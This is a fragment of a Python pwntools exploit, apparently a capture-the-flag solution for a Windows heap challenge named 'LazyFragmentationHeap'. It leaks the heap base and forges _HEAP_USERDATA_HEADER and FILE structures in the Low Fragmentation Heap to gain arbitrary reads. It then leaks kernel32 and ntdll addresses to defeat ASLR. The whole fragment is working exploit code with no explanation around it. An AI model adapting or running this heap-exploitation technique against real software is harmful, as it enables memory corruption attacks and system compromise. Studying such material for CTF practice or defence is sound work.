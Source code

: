 ```python
	heap_base = u64(show(4)[:8].ljust(8, p8(0))) - 0x150
	if heap_base == 0:
		log.info("Heap address not leaked")
		return

	if leakLazy:
		cursor = heap_base + 0x27b2 # can't leak null-byte
	elif cursor == 0:
		# default target is ntdll on _HEAP->LockVariable->Lock
		cursor = heap_base + 0x2c0
		
	# log.info("&_HEAP = 0x%016x" % heap_base)

	# make LFH to allocate new UserBlock in chunk 4
	for _ in range(0x14):
		open_file()

	fake_HEAP_USERDATA_HEADER = ""
	fake_HEAP_USERDATA_HEADER += p64(heap_base + 0xbcd0)   # +0x000 SubSegment
	fake_HEAP_USERDATA_HEADER += p64(heap_base + 0x12e40)  # +0x008 Reserved
	fake_HEAP_USERDATA_HEADER += p32(0xc)                  # +0x010 SizeIndexAndPadding
	fake_HEAP_USERDATA_HEADER += p32(0xf0e0d0c0)           # +0x014 Signature
	fake_HEAP_USERDATA_HEADER += p64(0) * 5                # I couldn't leak other values

	fake_FILE = ""
	fake_FILE += p64(0) * 2              # _HEAP_ENTRY
	fake_FILE += p64(cursor)             # cursor of SEEK_CUR
	fake_FILE += p64(cursor & ~0xfff)    # base address
	fake_FILE += p32(0x800)              # remaining file size
	fake_FILE += p32(0x2041)             # I dunno what they are
	fake_FILE += p64(0x17)				
	fake_FILE += p64(0x1000)
	fake_FILE += p64(0)
	fake_FILE += p64(0xffffffffffffffff)
	fake_FILE += p64(0xffffffff)
	fake_FILE += p64(0)
	fake_FILE += p64(0)

	for_leak = ""
	for_leak += fake_HEAP_USERDATA_HEADER
	for_leak += fake_FILE * (0x1000 / len(fake_FILE))

	edit(4, for_leak)
	alloc(5, SIZE)
	if leakLazy:
		read_file(5,4)
		result = u64(show(5)[:4].ljust(8, p8(0))) << 16
	else:
		read_file(5,8)
		result = u64(show(5)[:8].ljust(8, p8(0)))

	if disconn:
		sla("Your choice: ", str(6))
		hi.close()

	context.log_level = "info"
	return result

lazy_base = leak(leakLazy=True)
log.info("LazyFragmentationHeap = 0x%016x" % lazy_base)

kernel32 = leak(lazy_base+0x3008) - 0x1e690  # KERNEL32!IsDebuggerPresentStub
ntdll    = leak(lazy_base+0x3010) - 0x73810  # ntdll!RtlInitializeSListHead
```